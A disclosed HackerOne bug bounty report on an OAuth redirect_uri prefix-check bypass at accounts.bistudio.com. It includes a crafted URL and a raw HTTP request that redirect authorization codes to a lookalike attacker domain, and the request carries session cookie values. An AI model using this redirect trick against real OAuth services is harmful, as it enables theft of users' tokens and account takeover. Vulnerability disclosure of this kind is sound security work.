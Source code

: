 # Stealing Users OAUTH Tokens via redirect_uri 

## Report Details
- **Report ID**: 405100
- **URL**: https://hackerone.com/reports/405100
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-09-04T10:30:38.885Z
- **Disclosed**: 2018-09-14T12:24:09.249Z

## Reporter
- **Username**: ethancruize
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: bohemia

## Vulnerability Information
Hi,
I would like to report an Open redirection on oauth redirect_uri which can lead to users oauth tokens being leaked to any malicious user.

**Detail**

During the OAUTH flow, the redirect_uri on https://accounts.bistudio.com is not properly validating that the URL given is proper, as such a bypass of filter is possible and hence thereby able to exfiltrate users oauth tokens to that nonexisting domain.

On clicking on Login on https://xbox.dayz.com an OAUTH request is triggered to accounts.bistudio.com, the endpoint is checking if the Redirect_uri is starting with https://xbox.dayz.com and not checking the ending bits, as such its possible to inject anything after that. 

As an example i injected https://xbox.dayz.comtest.com and the server's whitelist is bypasses and a redirect is performed to https://xbox.dayz.comtest.com with the code and state values.

**Steps to Reproduce**

* Login to any website in the scope 
* After Login access the following URL - 

```
https://accounts.bistudio.com/api/auth?response_type=code&redirect_uri=http%3A%2F%2Fxbox.dayz.comtest.com%2Fapi%2Fauth%2Fcallback&state=OCoU2LvhmzLGAZ03DWem5QNs&client_id=%24edd1bfdc470df4b8d7b81c2683fc6d3
```
* On accessing you will get redirected to **xbox.dayz.comtest.com** with oauth access code and state, registering such domain is possible and when any loggedin user accesses the URL its possible to steal their oauth creds.


**RAW Request**
```
GET /api/auth?response_type=code&redirect_uri=http%3A%2F%2Fxbox.dayz.comtest.com%2Fapi%2Fauth%2Fcallback&state=OCoU2LvhmzLGAZ03DWem5QNs&client_id=%24edd1bfdc470df4b8d7b81c2683fc6d3 HTTP/1.1
Host: accounts.bistudio.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://incubator.bohemia.net/
Cookie: cookieconsent_dismissed=yes; bi.accounts.connect.sid=s%3AEbOE7LAPYR9IJO8ocyKuhNoIx_qXNt7_.UWaqiLeZPbgCSPM5nTvWUY2HiRYUXzEjw%2BRPxP3optA; bi_store_auth_session=eyJpdiI6IkcxSWloOVwvdngyaVFjZE9WM012ZzZMRmpkY1VnN1wvOW5abnkyYlNBVklaMD0iLCJ2YWx1ZSI6IjRpUFRUNzFkNElkWkZWeUc4U2o1TkNBaytURlJnVEVyaVFlMTJEc1pjcFR6XC9wUjlHdjd2cDRNQXFaN3hlZjVodHFMaW84WVFxWVJvUG1DOE4xTmtqUT09IiwibWFjIjoiZmRkZThlYjliMmZhMjc4YzBhMWVjMThkN2UxOTc5NmY3MjQ1YTc0NGFlY2FmNGVlNDUwOTU4ZjZmMGU5YTMwMSJ9
Connection: close
Upgrade-Insecure-Requests: 1
```

## Impact

Due to validation bypass in redirect_uri parameter in OAUTH flow, its possible to redirect authenticated users to arbitrary domains with their oauth credentials from which its possible to takeover their account.

Best Regards,
EC

## Attachments
- oauth.PNG
